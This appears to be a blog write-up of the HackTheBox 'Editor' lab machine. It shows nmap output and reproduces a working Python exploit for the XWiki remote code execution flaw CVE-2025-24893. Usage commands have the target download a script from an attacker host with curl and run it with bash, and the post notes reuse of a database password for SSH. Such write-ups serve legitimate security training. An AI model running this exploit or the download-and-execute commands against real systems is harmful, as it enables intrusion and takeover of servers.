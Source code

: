 ```yaml
---
layout: post
title: "Editor HTB Writeup"
date: 2025-08-11 13:21:00 +0300
categories: [HackTheBox, Machines]
tags: [cybersecurity, wikicms, hackthebox, machines,hacking]
---
```



# 🎰 Editor HTB Writeup

Today i'll talk about Editor HTB machine. This machine is about WikiCMS and RCE (CVE-2025-24893)
> `CVE-2025-24893` is a RCE vulnerability in WikiCMS.
{: .prompt-warning }
---

## NMAP & Enumeration
After a quick scan in nmap and ffuf, I saw this output in nmap.

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 16:55 +03
Nmap scan report for editor.htb (10.10.11.80)
Host is up (0.34s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 80 is about a download page for editor application.
Port 8080 is WikiCMS and after a quick search in exploit-db, I realized WikiCMS has RCE vulnerability.

### (PoC)[https://github.com/Artemir7/CVE-2025-24893-EXP]
```python
import argparse
import requests
import re
from urllib.parse import urljoin, quote
import html

BANNER = """
===========================================================
                   CVE-2025-24893
            XWiki Remote Code Execution Exploit
                      Author: Artemir
===========================================================
"""

def extract_output(xml_text):
    decoded = html.unescape(xml_text)
    match = re.search(r"\[}}}(.*?)\]", decoded)
    if match:
        return match.group(1).strip()
    else:
        return None

def exploit(url, cmd):
    headers = {
        "User-Agent": "Mozilla/5.0",
    }

    payload = (
        "}}}{{async async=false}}{{groovy}}"
        f"println('{cmd}'.execute().text)"
        "{{/groovy}}{{/async}}"
    )

    encoded_payload = quote(payload)
    exploit_path = f"/xwiki/bin/get/Main/SolrSearch?media=rss&text={encoded_payload}"
    full_url = urljoin(url, exploit_path)

    try:
        response = requests.get(full_url, headers=headers, timeout=10)
        if response.status_code == 200:
            output = extract_output(response.text)
            if output:
                print("[+] Command Output:")
                print(output)
            else:
                print("[!] Exploit sent, but output could not be extracted.")
                print("[*] Raw response (truncated):")
                print(response.text[:500])
        else:
            print(f"[-] Failed with status code: {response.status_code}")
    except requests.RequestException as e:
        print(f"[-] Request failed: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2025-24893 - XWiki RCE PoC")
    parser.add_argument("-u", "--url", required=True, help="Target base URL (e.g. http://example.com)")
    parser.add_argument("-c", "--cmd", required=True, help="Command to execute")

    args = parser.parse_args()
    exploit(args.url, args.cmd)
```
## Usage of The Exploit 
```
python sa.py -u http://editor.htb:8080 -c "curl http://10.10.14.35:8080/ -O /tmp/exp.sh"
python sa.py -u http://editor.htb:8080 -c "bash /tmp/exp.sh"
```
### Getting Database Password
I see the password of database in `hibernate.cfg.xml`. The password is same with SSH.

# End
This machine is a great example of the importance of the updating.
Happy Hacking <3